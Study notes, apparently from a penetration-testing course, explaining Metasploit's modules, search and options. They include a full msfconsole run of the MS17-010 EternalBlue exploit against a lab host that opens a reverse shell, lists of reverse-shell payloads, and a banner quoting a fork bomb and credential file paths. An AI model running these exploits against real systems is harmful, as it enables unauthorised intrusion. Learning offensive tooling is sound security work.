

Metasploit
... is Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and moularized exploits. The Metasploit Framework includes a suite of tools that you can use to test security vulns, enumerate networks, execute attacks, and evade detection. At its core, the Metasploit Project is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development.
The modules mentioned are actual exploit PoCs that have already been developed and tested in the wild and integrated within the framework to provide pentesters with ease of access to different attack vectors for different platforms and services. Metasploit is not a jack of all trades but a swiss army knife with just enough tools to get you through the most common unpatched vulns.
Architecture
Data, Documentation, Lib
These are the base files for the framework. The data and lib are the functioning parts of the msfconsole interface, while the documentation folder contains all the technical details about the project.
Modules
... are split into separate categories and contained in the following folders:
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/modules
auxiliary encoders evasion exploits nops payloads post
Plugins
... offer the pentester more flexibility when using msfconsole since they can easy be manually or automatically loaded as needed to provide extra functionality and automation during your assessment.
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/plugins/
aggregator.rb ips_filter.rb openvas.rb sounds.rb
alias.rb komand.rb pcap_log.rb sqlmap.rb
auto_add_route.rb lab.rb request.rb thread.rb
beholder.rb libnotify.rb rssfeed.rb token_adduser.rb
db_credcollect.rb msfd.rb sample.rb token_hunter.rb
db_tracker.rb msgrpc.rb session_notifier.rb wiki.rb
event_tester.rb nessus.rb session_tagger.rb wmap.rb
ffautoregen.rb nexpose.rb socket_logger.rb
Scripts
Meterpreter functionality and other useful scripts.
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/scripts/
meterpreter ps resource shell
Tools
Command-line utilities that can be called directly from the msfconsole.
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/tools/
context docs hardware modules payloads
dev exploit memdump password recon
MSFconsole
Launching
d41y@htb[/htb]$ msfconsole
`:oDFo:`
./ymM0dayMmy/.
-+dHJ5aGFyZGVyIQ==+-
`:sm⏣~~Destroy.No.Data~~s:`
-+h2~~Maintain.No.Persistence~~h+-
`:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`
./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.
-++SecKCoin++e.AMd` `.-://///+hbove.913.ElsMNh+-
-~/.ssh/id_rsa.Des- `htN01UserWroteMe!-
:dopeAW.No<nano>o :is:TЯiKC.sudo-.A:
:we're.all.alike'` The.PFYroy.No.D7:
:PLACEDRINKHERE!: yxp_cmdshell.Ab0:
:msf>exploit -j. :Ns.BOB&ALICEes7:
:---srwxrwx:-.` `MS146.52.No.Per:
:<script>.Ac816/ sENbove3101.404:
:NT_AUTHORITY.Do `T:/shSYSTEM-.N:
:09.14.2011.raid /STFU|wall.No.Pr:
:hevnsntSurb025N. dNVRGOING2GIVUUP:
:#OUTHOUSE- -s: /corykennedyData:
:$nmap -oS SSo.6178306Ence:
:Awsm.da: /shMTl#beats3o.No.:
:Ring0: `dDestRoyREXKC3ta/M:
:23d: sSETEC.ASTRONOMYist:
/- /yo- .ence.N:(){ :|: & };:
`:Shall.We.Play.A.Game?tron/
```-ooy.if1ghtf0r+ehUser5`
..th3.H1V3.U2VjRFNN.jMh+.`
`MjM~~WE.ARE.se~~MMjMs
+~KANSAS.CITY's~-`
J~HAKCERS~./.`
.esc:wq!:`
+++ATH`
`
=[ metasploit v6.1.9-dev ]
+ -- --=[ 2169 exploits - 1149 auxiliary - 398 post ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops ]
+ -- --=[ 9 evasion ]
Metasploit tip: Use sessions -1 to interact with the last opened session
msf6 >
Engagement Structure

Modules
Syntax:
<No.> <type>/<os>/<service>/<name>
Index No.
the no. tag will be displayed to select the exploit you want afterward during your searches.
Type
... the type tag is the first level of segregation between Metasploit modules.
| Type | Description |
|---|---|
| Auxiliary | scanning, fuzzing, sniffing, and admin capabilties; offer extra assistance and functionality |
| Encoders | ensure that payloads are intact to their destination |
| Exploits | defined as modules that exploit a vuln that will allow for the payload delivery |
| NOPs | keep the payload sizes consistent across exploit attempts |
| Payloads | code runs remotely and calls back to the attacker machine to establish a connection |
| Plugins | additional scripts can be integrated within an assessment with msfconsole and coexist |
| Post | wide array of modules to gather information, pivot deeper, etc. |
Note that when selecting a module to use for payload delivery, the use <no.> command can only be used with the following modules that can be used as initiators:
- Auxiliary
- Exploits
- Post
OS
The OS tag specifies which OS and architecture the module was created for. Naturally, different OS require different code to be run to get the desired results.
Service
The service tag refers to the vulnerable service that is running on the target machine. For some modules such as the auxiliary or post ones, this tag can refer to a more general activity such as gather, referring to the gathering of creds.
Name
The name tag explains the actual action that can be performed using this module created for a specific purpose.
Module Searching
help
msf6 > help search
Usage: search [<options>] [<keywords>:<value>]
Prepending a value with '-' will exclude any matching results.
If no options or keywords are provided, cached results are displayed.
OPTIONS:
-h Show this help information
-o <file> Send output to a file in csv format
-S <string> Regex pattern used to filter search results
-u Use module if there is one result
-s <search_column> Sort the research results based on <search_column> in ascending order
-r Reverse the search results order to descending order
Keywords:
aka : Modules with a matching AKA (also-known-as) name
author : Modules written by this author
arch : Modules affecting this architecture
bid : Modules with a matching Bugtraq ID
cve : Modules with a matching CVE ID
edb : Modules with a matching Exploit-DB ID
check : Modules that support the 'check' method
date : Modules with a matching disclosure date
description : Modules with a matching description
fullname : Modules with a matching full name
mod_time : Modules with a matching modification date
name : Modules with a matching descriptive name
path : Modules with a matching path
platform : Modules affecting this platform
port : Modules with a matching port
rank : Modules with a matching rank (Can be descriptive (ex: 'good') or numeric with comparison operators (ex: 'gte400'))
ref : Modules with a matching ref
reference : Modules with a matching reference
target : Modules affecting this target
type : Modules of a specific type (exploit, payload, auxiliary, encoder, evasion, post, or nop)
Supported search columns:
rank : Sort modules by their exploitabilty rank
date : Sort modules by their disclosure date. Alias for disclosure_date
disclosure_date : Sort modules by their disclosure date
name : Sort modules by their name
type : Sort modules by their type
check : Sort modules by whether or not they have a check method
Examples:
search cve:2009 type:exploit
search cve:2009 type:exploit platform:-linux
search cve:2009 -s name
search type:exploit -s type -r
name
msf6 > search eternalromance
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
1 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
msf6 > search eternalromance type:exploit
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
specific
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/http/exchange_proxylogon_rce 2021-03-02 excellent Yes Microsoft Exchange ProxyLogon RCE
1 exploit/windows/http/exchange_proxyshell_rce 2021-04-06 excellent Yes Microsoft Exchange ProxyShell RCE
2 exploit/windows/http/sharepoint_unsafe_control 2021-05-11 excellent Yes Microsoft SharePoint Unsafe Control and ViewState RCE
Module Usage
Within the interactive modules, there are several options you can specify. These are used to adapt the Metasploit module to the given environment. To check which options are needed to be set before the exploit can be sent to the target host, you can use the show options command. Everything required to be set before the exploitation can occur will have a Yes under the Required column.
<SNIP>
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
1 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options
Module options (exploit/windows/smb/ms17_010_psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
DBGTRACE false yes Show extra debug trace info
LEAKATTEMPTS 99 yes How many times to try to leak transaction
NAMEDPIPE no A named pipe that can be connected to (leave blank for auto)
NAMED_PIPES /usr/share/metasploit-framework/data/wo yes List of named pipes to check
rdlists/named_pipes.txt
RHOSTS yes The target host(s), see https://github.com/rapid7/metasploit-framework
/wiki/Using-Metasploit
RPORT 445 yes The Target port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
rmal read/write folder share
SMBDomain . no The Windows domain to use for authentication
SMBPass no The password for the specified username
SMBUser no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
Info
msf6 exploit(windows/smb/ms17_010_psexec) > info
Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
Module: exploit/windows/smb/ms17_010_psexec
Platform: Windows
Arch: x86, x64
Privileged: No
License: Metasploit Framework License (BSD)
Rank: Normal
Disclosed: 2017-03-14
Provided by:
sleepya
zerosum0x0
Shadow Brokers
Equation Group
Available targets:
Id Name
-- ----
0 Automatic
1 PowerShell
2 Native upload
3 MOF upload
Check supported:
Yes
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
DBGTRACE false yes Show extra debug trace info
LEAKATTEMPTS 99 yes How many times to try to leak transaction
NAMEDPIPE no A named pipe that can be connected to (leave blank for auto)
NAMED_PIPES /usr/share/metasploit-framework/data/wo yes List of named pipes to check
rdlists/named_pipes.txt
RHOSTS yes The target host(s), see https://github.com/rapid7/metasploit-framework/
wiki/Using-Metasploit
RPORT 445 yes The Target port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a nor
mal read/write folder share
SMBDomain . no The Windows domain to use for authentication
SMBPass no The password for the specified username
SMBUser no The username to authenticate as
Payload information:
Space: 3072
Description:
This module will exploit SMB with vulnerabilities in MS17-010 to
achieve a write-what-where primitive. This will then be used to
overwrite the connection session information with as an
Administrator session. From there, the normal psexec payload code
execution is done. Exploits a type confusion between Transaction and
WriteAndX requests and a race condition in Transaction requests, as
seen in the EternalRomance, EternalChampion, and EternalSynergy
exploits. This exploit chain is more reliable than the EternalBlue
exploit, but requires a named pipe.
References:
https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
https://nvd.nist.gov/vuln/detail/CVE-2017-0143
https://nvd.nist.gov/vuln/detail/CVE-2017-0146
https://nvd.nist.gov/vuln/detail/CVE-2017-0147
https://github.com/worawit/MS17-010
https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/
Also known as:
ETERNALSYNERGY
ETERNALROMANCE
ETERNALCHAMPION
ETERNALBLUE
Setting the Target
You can use set or setg (specifies options selected until the program is restarted).
sf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > options
Name Current Setting Required Description
---- --------------- -------- -----------
DBGTRACE false yes Show extra debug trace info
LEAKATTEMPTS 99 yes How many times to try to leak transaction
NAMEDPIPE no A named pipe that can be connected to (leave blank for auto)
NAMED_PIPES /usr/share/metasploit-framework/data/wo yes List of named pipes to check
rdlists/named_pipes.txt
RHOSTS 10.10.10.40 yes The target host(s), see https://github.com/rapid7/metasploit-framework
/wiki/Using-Metasploit
RPORT 445 yes The Target port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
rmal read/write folder share
SMBDomain . no The Windows domain to use for authentication
SMBPass no The password for the specified username
SMBUser no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
Running the Exploit
msf6 exploit(windows/smb/ms17_010_psexec) > run
[*] Started reverse TCP handler on 10.10.14.15:4444
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter> shell
C:\Windows\system32>
Targets
... are unique OS identifiers taken from the versions of those specific OS which adapt the selected exploit module to run on that particular version of the OS. The show targets command issued within an exploit module view will display all available vulnerable targets for that specific exploit, while issuing the same command in the root menu, outside of any selected exploit module, will let you know that you need to select an exploit module first.
msf6 > show targets
[-] No exploit module selected.
...
msf6 exploit(windows/smb/ms17_010_psexec) > options
Name Current Setting Required Description
---- --------------- -------- -----------
DBGTRACE false yes Show extra debug trace info
LEAKATTEMPTS 99 yes How many times to try to leak transaction
NAMEDPIPE no A named pipe that can be connected to (leave blank for auto)
NAMED_PIPES /usr/share/metasploit-framework/data/wo yes List of named pipes to check
rdlists/named_pipes.txt
RHOSTS 10.10.10.40 yes The target host(s), see https://github.com/rapid7/metasploit-framework
/wiki/Using-Metasploit
RPORT 445 yes The Target port (TCP)
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
rmal read/write folder share
SMBDomain . no The Windows domain to use for authentication
SMBPass no The password for the specified username
SMBUser no The username to authenticate as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
Selecting a Target
If you want to find out more about a specific module and what the vuln behind it does, you can use the info command.
msf6 exploit(windows/browser/ie_execcommand_uaf) > info
Name: MS12-063 Microsoft Internet Explorer execCommand Use-After-Free Vulnerability
Module: exploit/windows/browser/ie_execcommand_uaf
Platform: Windows
Arch:
Privileged: No
License: Metasploit Framework License (BSD)
Rank: Good
Disclosed: 2012-09-14
Provided by:
unknown
eromang
binjo
sinn3r <sinn3r@metasploit.com>
juan vazquez <juan.vazquez@metasploit.com>
Available targets:
Id Name
-- ----
0 Automatic
1 IE 7 on Windows XP SP3
2 IE 8 on Windows XP SP3
3 IE 7 on Windows Vista
4 IE 8 on Windows Vista
5 IE 8 on Windows 7
6 IE 9 on Windows 7
Check supported:
No
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
OBFUSCATE false no Enable JavaScript obfuscation
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL for incoming connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH no The URI to use for this exploit (default is random)
Payload information:
Description:
This module exploits a vulnerability found in Microsoft Internet
Explorer (MSIE). When rendering an HTML page, the CMshtmlEd object
gets deleted in an unexpected manner, but the same memory is reused
again later in the CMshtmlEd::Exec() function, leading to a
use-after-free condition. Please note that this vulnerability has
been exploited since Sep 14, 2012. Also, note that
presently, this module has some target dependencies for the ROP
chain to be valid. For WinXP SP3 with IE8, msvcrt must be present
(as it is by default). For Vista or Win7 with IE8, or Win7 with IE9,
JRE 1.6.x or below must be installed (which is often the case).
References:
https://cvedetails.com/cve/CVE-2012-4969/
OSVDB (85532)
https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2012/MS12-063
http://technet.microsoft.com/en-us/security/advisory/2757760
http://eromang.zataz.com/2012/09/16/zero-day-season-is-really-not-over-yet/
Looking at the description, you can get a general idea of what this exploit will accomplish for you. Keeping this in mind, you would next want to check which versions are vulnerable to this exploit.
msf6 exploit(windows/browser/ie_execcommand_uaf) > options
Module options (exploit/windows/browser/ie_execcommand_uaf):
Name Current Setting Required Description
---- --------------- -------- -----------
OBFUSCATE false no Enable JavaScript obfuscation
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL for incoming connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH no The URI to use for this exploit (default is random)
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets
Exploit targets:
Id Name
-- ----
0 Automatic
1 IE 7 on Windows XP SP3
2 IE 8 on Windows XP SP3
3 IE 7 on Windows Vista
4 IE 8 on Windows Vista
5 IE 8 on Windows 7
6 IE 9 on Windows 7
You see options for both different versions of IE and various Windows versions. Leaving the selection to Automatic will let msfconsole know that it needs to perform service detection on the given target before launching a successful attack.
If you, however, know what versions are running on your target, you can use the set target <index no.> command to pick a target from the list.
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets
Exploit targets:
Id Name
-- ----
0 Automatic
1 IE 7 on Windows XP SP3
2 IE 8 on Windows XP SP3
3 IE 7 on Windows Vista
4 IE 8 on Windows Vista
5 IE 8 on Windows 7
6 IE 9 on Windows 7
msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6
target => 6
Payloads
A payload in Metasploit refers to a module that aids the exploit module in returning a shell to the attacker. The payloads are sent together with the exploit itself to bypass standard functioning procedures of the vulnerable service and then run on the target OS to typically return a reverse connection to the attacker and establish a foothold.
There are three different types of payloads in Metasploit: Singles, Stagers, and Stages.
Payload Types
Singles
... contain the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. However, some exploits will not support the resulting size of these payloads as they can get quite large. Singles are self-contained payloads. They are the sole object sent and executed on the target system, getting you a result immediately after running. A Single payload can be as simple as adding a user to the target system or booting up a process.
Stagers
... work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. Stagers are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable.
Stages
... are payload components that are downloaded by stager's modules. The various payload Stages provide advanced features with no size limits, such as Meterpreter, VNC injection, and others. Payload stages automatically use middle stagers.
Staged Payloads
A staged payload is an exploitation process that is modularized and functionally separated to help segregate the different functions it accomplishes into different code blocks, each completing its objective individually but working on chaining the attack together. This will ultimately grant an attacker remote access to the target machine if all the stages work correctly.
msf6 > show payloads
<SNIP>
535 windows/x64/meterpreter/bind_ipv6_tcp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
536 windows/x64/meterpreter/bind_ipv6_tcp_uuid normal No Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
537 windows/x64/meterpreter/bind_named_pipe normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
538 windows/x64/meterpreter/bind_tcp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
539 windows/x64/meterpreter/bind_tcp_rc4 normal No Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
540 windows/x64/meterpreter/bind_tcp_uuid normal No Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
541 windows/x64/meterpreter/reverse_http normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
542 windows/x64/meterpreter/reverse_https normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
543 windows/x64/meterpreter/reverse_named_pipe normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
544 windows/x64/meterpreter/reverse_tcp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
545 windows/x64/meterpreter/reverse_tcp_rc4 normal No Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
546 windows/x64/meterpreter/reverse_tcp_uuid normal No Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
547 windows/x64/meterpreter/reverse_winhttp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
548 windows/x64/meterpreter/reverse_winhttps normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)
<SNIP>
Meterpreter Payload
... is a specific type of multi-faceted payload that uses DLL injection to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques. In addition, scripts and plugins can be loaded and unloaded dynamically as required.
Once the Meterpreter payload is executed, a new session is created, which spawns up the Meterpreter interface. It is very similar to the msfconsole interface, but all available commands are aimed at the target system, which the payload has "infected". It offers you a plethora of useful commands, varying from keystroke capture, password hash collection, microphone tapping, and screenshotting to impersonating process security tokens.
Using Meterpreter, you can also load in different Plugins to assist you with your assessment.
Searching for Payloads
msf6 > show payloads
Payloads
========
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 aix/ppc/shell_bind_tcp manual No AIX Command Shell, Bind TCP Inline
1 aix/ppc/shell_find_port manual No AIX Command Shell, Find Port Inline
2 aix/ppc/shell_interact manual No AIX execve Shell for inetd
3 aix/ppc/shell_reverse_tcp manual No AIX Command Shell, Reverse TCP Inline
4 android/meterpreter/reverse_http manual No Android Meterpreter, Android Reverse HTTP Stager
5 android/meterpreter/reverse_https manual No Android Meterpreter, Android Reverse HTTPS Stager
6 android/meterpreter/reverse_tcp manual No Android Meterpreter, Android Reverse TCP Stager
7 android/meterpreter_reverse_http manual No Android Meterpreter Shell, Reverse HTTP Inline
8 android/meterpreter_reverse_https manual No Android Meterpreter Shell, Reverse HTTPS Inline
9 android/meterpreter_reverse_tcp manual No Android Meterpreter Shell, Reverse TCP Inline
10 android/shell/reverse_http manual No Command Shell, Android Reverse HTTP Stager
11 android/shell/reverse_https manual No Command Shell, Android Reverse HTTPS Stager
12 android/shell/reverse_tcp manual No Command Shell, Android Reverse TCP Stager
13 apple_ios/aarch64/meterpreter_reverse_http manual No Apple_iOS Meterpreter, Reverse HTTP Inline
<SNIP>
557 windows/x64/vncinject/reverse_tcp manual No Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager
558 windows/x64/vncinject/reverse_tcp_rc4 manual No Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
559 windows/x64/vncinject/reverse_tcp_uuid manual No Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support (Windows x64)
560 windows/x64/vncinject/reverse_winhttp manual No Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (winhttp)
561 windows/x64/vncinject/reverse_winhttps manual No Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)
Specific Payloads
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
6 payload/windows/x64/meterpreter/bind_ipv6_tcp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
7 payload/windows/x64/meterpreter/bind_ipv6_tcp_uuid normal No Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
8 payload/windows/x64/meterpreter/bind_named_pipe normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
9 payload/windows/x64/meterpreter/bind_tcp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
10 payload/windows/x64/meterpreter/bind_tcp_rc4 normal No Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
11 payload/windows/x64/meterpreter/bind_tcp_uuid normal No Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
12 payload/windows/x64/meterpreter/reverse_http normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
13 payload/windows/x64/meterpreter/reverse_https normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
14 payload/windows/x64/meterpreter/reverse_named_pipe normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
15 payload/windows/x64/meterpreter/reverse_tcp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
16 payload/windows/x64/meterpreter/reverse_tcp_rc4 normal No Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
17 payload/windows/x64/meterpreter/reverse_tcp_uuid normal No Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
18 payload/windows/x64/meterpreter/reverse_winhttp normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
19 payload/windows/x64/meterpreter/reverse_winhttps normal No Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads
[*] 14
Selecting Payloads
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
Module options (exploit/windows/smb/ms17_010_eternalblue):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 445 yes The target port (TCP)
SMBDomain . no (Optional) The Windows domain to use for authentication
SMBPass no (Optional) The password for the specified username
SMBUser no (Optional) The username to authenticate as
VERIFY_ARCH true yes Check if remote architecture matches exploit Target.
VERIFY_TARGET true yes Check if remote OS matches exploit Target.
Exploit target:
Id Name
-- ----
0 Windows 7 and Server 2008 R2 (x64) All Service Packs
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
